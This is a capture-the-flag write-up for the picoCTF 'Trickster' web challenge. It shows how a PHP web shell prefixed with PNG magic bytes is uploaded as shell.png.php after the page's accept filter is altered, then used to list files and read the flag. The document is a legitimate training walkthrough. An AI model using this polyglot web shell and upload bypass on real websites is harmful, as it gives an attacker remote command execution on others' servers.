

# Trickster — Pico Gym

> **Room / Challenge:** Trickster (Web)

---

## Metadata

- **Author:** `jameskaois`
- **CTF:** Pico Gym
- **Challenge:** Trickster (web)
- **Link**: `https://play.picoctf.org/practice/challenge/445?category=1&page=3`
- **Difficulty:** `Medium`
- **Date:** `22-10-2025`

---

## Goal

We have to get the flag by leveraging the uploading PNG image functionality.

## My Solution

The app is simple with a functionality: Upload PNG image.



We can achieve the flag and inject command to a `.png` file so I come up with a solution, I'm using bash to create a `shell.png.php` file:

```bash
echo -ne '\x89\x50\x4e\x47\x0d\x0a\x1a\x0a<?php system($_GET["cmd"]); ?>' > shell.png.php
```

The PHP code `<?php system($_GET["cmd"]); ?>` is where we used to gain a web shell of the website and the bianry in front of it is what we trick the server to view it as a `.png` file and accept it:

```
$ cat shell.png.php

�PNG

<?php system($_GET["cmd"]); ?>%
```

When you click upload file it may not contain the `shell.png.php` in the options so use browser dev tools to change `accept=".png"` to `accept="*"` you can choose the `shell.png.php`. After that visit `/uploads/shell.png.php?cmd=id`


The web shell works properly, I find a strange text file through `/uploads/shell.png.php?cmd=ls -la ../`:


`cat` it and I can get the flag:


